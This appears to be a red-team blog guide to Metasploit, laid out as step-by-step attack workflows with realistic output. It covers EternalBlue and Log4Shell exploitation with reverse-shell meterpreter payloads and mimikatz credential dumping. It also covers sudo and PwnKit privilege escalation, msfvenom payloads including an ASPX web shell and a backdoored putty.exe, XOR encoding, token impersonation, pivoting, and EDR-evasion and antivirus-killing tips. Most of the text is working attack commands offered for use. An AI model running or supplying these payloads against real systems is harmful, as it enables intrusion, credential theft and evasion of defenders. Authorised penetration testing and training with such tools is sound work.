



## Introduction: What Metasploit Actually Does in Red Team Ops

Metasploit Framework (MSF) is frequently misunderstood as a "script-kiddie exploit launcher." In professional red team operations, it serves as a **modular exploitation, post-exploitation, and campaign management platform**. When wielded correctly, MSF provides:
- Standardized payload generation & delivery across platforms
- Centralized session management & network pivoting
- Integrated credential harvesting & lateral movement modules
- Database-driven campaign tracking (hosts, services, credentials, loot)
- Automation via resource scripts & external tool integration

This guide delivers a **step-by-step offensive deep dive** into Metasploit's core uses, popular attack workflows, MSFVenom payload engineering, post-exploitation techniques, and OPSEC-aware execution paths. Every command includes realistic output to mirror actual red team engagements.

> {: .prompt-tip }
> **Red Team Reality:** Modern EDRs heavily signature Metasploit's default payloads and network patterns. MSF excels at initial access validation, internal pivoting, post-exploitation on isolated segments, and rapid campaign automation. Always adapt payloads, ports, and execution paths for OPSEC.

---

## Core Uses & Capabilities in Red Team Operations

| Capability | Metasploit Component | Red Team Application |
|------------|----------------------|----------------------|
| **Initial Access** | `exploit/*` modules | Deliver payloads via SMB, HTTP, SSH, RDP, web apps |
| **Payload Engineering** | `msfvenom` | Generate staged/stageless payloads in 20+ formats |
| **Session Management** | `sessions`, `meterpreter` | Maintain interactive access, migrate processes, dump creds |
| **Credential Harvesting** | `post/windows/gather/*`, `load kiwi` | Extract NTLM hashes, plaintext passwords, Kerberos tickets |
| **Lateral Movement** | `auxiliary/admin/smb/*`, `exploit/windows/smb/*` | Pass-the-Hash, WMI, PSExec, SMB relay |
| **Network Pivoting** | `autoroute`, `socks_proxy`, `portfwd` | Route traffic through compromised hosts to internal networks |
| **Automation** | `resource scripts`, `db_nmap` | Repeatable engagement workflows, campaign tracking |
| **OPSEC/Cleanup** | `sessions -K`, `run post/windows/manage/killav` | Terminate sessions, remove artifacts, evade detection |

---

## Metasploit Architecture & Workflow



### Workflow Phases
1. **Reconnaissance** → `db_nmap`, `auxiliary/scanner/*`
2. **Exploitation** → `exploit/*`, payload delivery
3. **Post-Exploitation** → `post/*`, `load kiwi`, credential dumping
4. **Pivoting** → `autoroute`, `socks_proxy`, internal scanning
5. **Cleanup** → `sessions -K`, artifact removal, log scrubbing

---

## Popular Attack Scenarios (Step-by-Step + Outputs)

### Scenario 1: Windows SMB Exploitation (MS17-010 EternalBlue)

**Step 1: Start Metasploit & Configure Database**
```bash
msfconsole
```
**Output:**
```text
       =[ metasploit v6.3.44-dev                          ]
+ -- --=[ 2387 exploits - 1234 auxiliary - 412 post       ]
+ -- --=[ 1398 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Use 'help' to get a list of commands.

msf6 > db_status
[*] Connected to msf. Connection type: postgresql.
```

**Step 2: Scan for Vulnerable Hosts**
```msf
msf6 > db_nmap -sV -p 445 --script smb-vuln-ms17-010 10.10.10.0/24
```
**Output:**
```text
[*] Nmap: Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-12 10:15 UTC
[*] Nmap: Nmap scan report for 10.10.10.15
[*] Nmap: Host is up (0.0023s latency).
[*] Nmap: PORT    STATE SERVICE      VERSION
[*] Nmap: 445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
[*] Nmap: 
[*] Nmap: Host script results:
[*] Nmap: | smb-vuln-ms17-010: 
[*] Nmap: |   VULNERABLE:
[*] Nmap: |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
[*] Nmap: |     State: VULNERABLE
[*] Nmap: |     IDs:  CVE:CVE-2017-0143
[*] Nmap: |     Risk factor: HIGH
[*] Nmap: |_      A critical remote code execution vulnerability exists in Microsoft SMBv1
[*] Nmap: 
[*] Nmap: Nmap done: 256 IP addresses (1 host up) scanned in 12.44 seconds
```

**Step 3: Configure & Launch Exploit**
```msf
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.15
RHOSTS => 10.10.10.15
msf6 exploit(windows/smb/ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.14.5
LHOST => 10.10.14.5
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LPORT 4444
LPORT => 4444
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
```
**Output:**
```text
[*] Started reverse TCP handler on 10.10.14.5:4444 
[*] 10.10.10.15:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.15:445     - Host is likely VULNERABLE to MS17-010!
[*] 10.10.10.15:445 - Connecting to target for exploitation.
[+] 10.10.10.15:445 - Connection established for exploitation.
[+] 10.10.10.15:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.15:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.15:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.15:445 - Starting non-paged pool grooming
[+] 10.10.10.15:445 - Sending SMBv2 buffers
[+] 10.10.10.15:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.15:445 - Sending final SMBv2 buffers.
[*] 10.10.10.15:445 - Sending last fragment of exploit packet!
[*] 10.10.10.15:445 - Receiving response from exploit packet
[+] 10.10.10.15:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.15:445 - Sending egg to corrupted connection.
[*] 10.10.10.15:445 - Triggering free of corrupted buffer.
[*] Sending stage (200774 bytes) to 10.10.10.15
[*] Meterpreter session 1 opened (10.10.14.5:4444 -> 10.10.10.15:49721) at 2024-02-12 10:16:05 -0500
[+] 10.10.10.15:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.15:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.15:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```

**Step 4: Post-Exploitation & Credential Dumping**
```msf
meterpreter > sysinfo
```
**Output:**
```text
Computer        : FILE01
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : CORP
Logged On Users : 2
Meterpreter     : x64/windows
```

```msf
meterpreter > getuid
```
**Output:**
```text
Server username: NT AUTHORITY\SYSTEM
```

```msf
meterpreter > load kiwi
```
**Output:**
```text
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
  .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
  ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
  ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
  '## v ##'        Vincent LE TOUX             ( vincent.letoux@gmail.com )
   '#####'         > https://pingcastle.com / https://mysmartlogon.com ***/

Success.
```

```msf
meterpreter > creds_all
```
**Output:**
```text
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============
Username  Domain   NTLM                              SHA1
--------  ------   ----                              ----
jdoe      CORP     a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6  9c8a12b3d4e5f6a7b8c9d0e1f2a3b4c5d6e7f8a9
asmith    CORP     b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6e7  8b7a01c2d3e4f5a6b7c8d9e0f1a2b3c4d5e6f7a8

wdigest credentials
===================
Username  Domain   Password
--------  ------   --------
jdoe      CORP     Summer2023!
asmith    CORP     Winter2024!
```

---

### Scenario 2: Web Application RCE (Log4Shell / CVE-2021-44228)

**Step 1: Configure LDAP Callback & Exploit**
```msf
msf6 > use exploit/multi/http/apache_log4j_exec_2021_44228
msf6 exploit(multi/http/apache_log4j_exec_2021_44228) > set RHOSTS 10.10.10.25
RHOSTS => 10.10.10.25
msf6 exploit(multi/http/apache_log4j_exec_2021_44228) > set RPORT 8080
RPORT => 8080
msf6 exploit(multi/http/apache_log4j_exec_2021_44228) > set TARGETURI /api/login
TARGETURI => /api/login
msf6 exploit(multi/http/apache_log4j_exec_2021_44228) > set PAYLOAD linux/x64/meterpreter_reverse_tcp
PAYLOAD => linux/x64/meterpreter_reverse_tcp
msf6 exploit(multi/http/apache_log4j_exec_2021_44228) > set LHOST 10.10.14.5
LHOST => 10.10.14.5
msf6 exploit(multi/http/apache_log4j_exec_2021_44228) > set LPORT 4445
LPORT => 4445
msf6 exploit(multi/http/apache_log4j_exec_2021_44228) > exploit
```
**Output:**
```text
[*] Started reverse TCP handler on 10.10.14.5:4445 
[*] 10.10.10.25:8080 - Sending LDAP referral to http://10.10.14.5:8080/Exploit
[*] 10.10.10.25:8080 - Sending Java class to http://10.10.10.25:8080/Exploit.class
[*] 10.10.10.25:8080 - Sending stage (3045380 bytes) to 10.10.10.25
[*] Meterpreter session 2 opened (10.10.14.5:4445 -> 10.10.10.25:44112) at 2024-02-12 10:22:15 -0500
```

**Step 2: Verify Access & Escalate**
```msf
meterpreter > sysinfo
```
**Output:**
```text
Computer     : 10.10.10.25
OS           : Ubuntu 22.04.3 LTS (Linux 5.15.0-91-generic)
Architecture : x64
Meterpreter  : x64/linux
```

```msf
meterpreter > getuid
```
**Output:**
```text
Server username: uid=1000, gid=1000, euid=1000, egid=1000 @ web01
```

```msf
meterpreter > shell
```
**Output:**
```text
Process 4521 created.
Channel 1 created.
$ id
uid=1000(www-data) gid=1000(www-data) groups=1000(www-data)
$ sudo -l
User www-data may run the following commands on web01:
    (root) NOPASSWD: /usr/bin/apt-get
$ sudo /usr/bin/apt-get update -o APT::Update::Pre-Invoke::=/bin/bash
# id
uid=0(root) gid=0(root) groups=0(root)
```

---

### Scenario 3: Linux Privilege Escalation (Kernel/Local Exploit)

**Step 1: Background Session & Load Local Exploit**
```msf
meterpreter > background
[*] Backgrounding session 2...
msf6 exploit(multi/http/apache_log4j_exec_2021_44228) > use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set SESSION 2
SESSION => 2
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set LHOST 10.10.14.5
LHOST => 10.10.14.5
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set LPORT 4446
LPORT => 4446
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > exploit
```
**Output:**
```text
[*] Started reverse TCP handler on 10.10.14.5:4446 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Writing '/tmp/.pwnkit' (224 bytes) ...
[*] Writing '/tmp/.exploit' (16384 bytes) ...
[*] Sending stage (3045380 bytes) to 10.10.10.25
[*] Meterpreter session 3 opened (10.10.14.5:4446 -> 10.10.10.25:44200) at 2024-02-12 10:28:40 -0500
[+] Deleted /tmp/.pwnkit
[+] Deleted /tmp/.exploit
```

**Step 2: Verify Root Access**
```msf
meterpreter > getuid
```
**Output:**
```text
Server username: uid=0, gid=0, euid=0, egid=0 @ web01
```

---

## MSFVenom Deep Dive: Payload Generation Matrix

### Staged vs Stageless Payloads



### Format Conversion & Generation Examples

**1. Windows EXE (Staged)**
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f exe -o shell.exe
```
**Output:**
```text
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

**2. Linux ELF (Stageless)**
```bash
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=10.10.14.5 LPORT=4445 -f elf -o rev.elf
```
**Output:**
```text
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: rev.elf
```

**3. PowerShell Reflection (Windows)**
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f psh-reflection -o payload.ps1
```
**Output:**
```text
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Saved as: payload.ps1
```

**4. ASPX (Web Shell)**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f aspx -o shell.aspx
```
**Output:**
```text
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Saved as: shell.aspx
```

**5. WAR (Java Web App)**
```bash
msfvenom -p java/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f war -o app.war
```
**Output:**
```text
[-] No platform was selected, choosing Msf::Module::Platform::Java from the payload
[-] No arch selected, selecting arch: java from the payload
No encoder specified, outputting raw payload
Payload size: 1024 bytes
Saved as: app.war
```

**6. Python (Cross-Platform)**
```bash
msfvenom -p python/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f raw -o payload.py
```
**Output:**
```text
[-] No platform was selected, choosing Msf::Module::Platform::Python from the payload
[-] No arch selected, selecting arch: python from the payload
No encoder specified, outputting raw payload
Payload size: 485 bytes
Saved as: payload.py
```

### Encoding & Obfuscation

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 \
  -e x64/xor_dynamic -i 5 -f exe -o encoded.exe
```
**Output:**
```text
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 1 compatible encoders
Attempting to encode payload with 5 iterations of x64/xor_dynamic
x64/xor_dynamic succeeded with size 412 (iteration=0)
x64/xor_dynamic succeeded with size 412 (iteration=1)
x64/xor_dynamic succeeded with size 412 (iteration=2)
x64/xor_dynamic succeeded with size 412 (iteration=3)
x64/xor_dynamic succeeded with size 412 (iteration=4)
x64/xor_dynamic chosen with final size 412
Payload size: 412 bytes
Final size of exe file: 73802 bytes
Saved as: encoded.exe
```

### Template Injection (Binary Masquerading)

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 \
  -x /usr/share/windows-resources/binaries/putty.exe -f exe -o putty_backdoor.exe
```
**Output:**
```text
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Attempting to inject payload into /usr/share/windows-resources/binaries/putty.exe
Final size of exe file: 1146880 bytes
Saved as: putty_backdoor.exe
```

> {: .prompt-tip }
> **OPSEC Note:** `shikata_ga_nai` is heavily signatured. Modern red teams use custom encoders, reflective loading, AMSI/ETW bypasses, and legitimate binary templating. MSFVenom is the starting point, not the end. Always test payloads against target EDRs before deployment.

---

## Post-Exploitation & Pivoting Workflows

### Credential Harvesting & Token Manipulation
```msf
meterpreter > load incognito
```
**Output:**
```text
Loading extension incognito...Success.
```

```msf
meterpreter > list_tokens -u
```
**Output:**
```text
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
NT AUTHORITY\SYSTEM
CORP\jdoe
CORP\asmith

Impersonation Tokens Available
========================================
NT AUTHORITY\NETWORK SERVICE
```

```msf
meterpreter > impersonate_token CORP\\asmith
```
**Output:**
```text
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user CORP\asmith
```

```msf
meterpreter > getuid
```
**Output:**
```text
Server username: CORP\asmith
```

### Network Pivoting & SOCKS Proxy
```msf
meterpreter > run autoroute -s 10.10.20.0/24
```
**Output:**
```text
[*] Adding a route to 10.10.20.0/255.255.255.0...
[+] Added route to 10.10.20.0/255.255.255.0 via 10.10.10.15
[*] Use the -p option to list all active routes
```

```msf
meterpreter > background
[*] Backgrounding session 1...
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set VERSION 5
VERSION => 5
msf6 auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
SRVHOST => 127.0.0.1
msf6 auxiliary(server/socks_proxy) > run
```
**Output:**
```text
[*] Auxiliary module running as background job 0.
[*] Starting the SOCKS proxy server on 127.0.0.1:1080
```

**Verify Pivot:**
```bash
proxychains nmap -sT -Pn -p 445 10.10.20.10
```
**Output:**
```text
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-12 10:35 UTC
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.20.10:445  ...  OK
Nmap scan report for 10.10.20.10
Host is up (0.0045s latency).
PORT    STATE SERVICE
445/tcp open  microsoft-ds
Nmap done: 1 IP address (1 host up) scanned in 2.11 seconds
```

---

## OPSEC & Evasion Considerations

| Practice | Why It Matters | MSF Implementation |
|----------|----------------|-------------------|
| **Avoid default ports** | EDR/IDS signatures target 4444/8080 | `set LPORT 8443` |
| **Use staged payloads sparingly** | Network instability breaks staging | Prefer stageless for reliability |
| **Clean up sessions** | Orphaned processes trigger alerts | `sessions -K`, `run post/windows/manage/killav` |
| **Use named pipes over TCP** | Bypasses network monitoring | `set PAYLOAD windows/x64/meterpreter/reverse_named_pipe` |
| **Limit module execution** | Post modules generate telemetry | Run only necessary `post/*` modules |
| **Database hygiene** | Credential leakage in logs | `db_export -f xml engagement.xml`, wipe after |
| **OPSEC-safe modules** | Some modules trigger EDR | Avoid `mimikatz` in production; use `kiwi` carefully |

> {: .prompt-tip }
> **Red Team Reality:** Metasploit is highly detectable by modern EDRs. Use it for initial access validation, post-exploitation on isolated segments, and pivoting. For production engagements, integrate MSF with custom loaders, reflective DLLs, and commercial C2 frameworks.

---

## Attack Decision Tree



---

## References

- [Metasploit Unleashed — Official Guide](https://www.offsec.com/metasploit-unleashed/)
- [MSFVenom Documentation](https://www.offsec.com/metasploit-unleashed/msfvenom/)
- [Metasploit Module Documentation](https://www.rapid7.com/db/modules/)
- [HackTricks — Metasploit & Post-Exploitation](https://book.hacktricks.xyz)
- [Red Team Field Manual — Metasploit Section](https://www.amazon.com/Red-Team-Field-Manual/dp/1494295504)
- [MITRE ATT&CK — Execution & Lateral Movement](https://attack.mitre.org/tactics/TA0002/)
- [Meterpreter API Reference](https://www.offsec.com/metasploit-unleashed/meterpreter-basics/)
- [OPSEC for Metasploit — SANS Whitepaper](https://www.sans.org/white-papers/)

---

*Last updated: February 12, 2024*
*Author: Security Researcher*
*License: MIT*
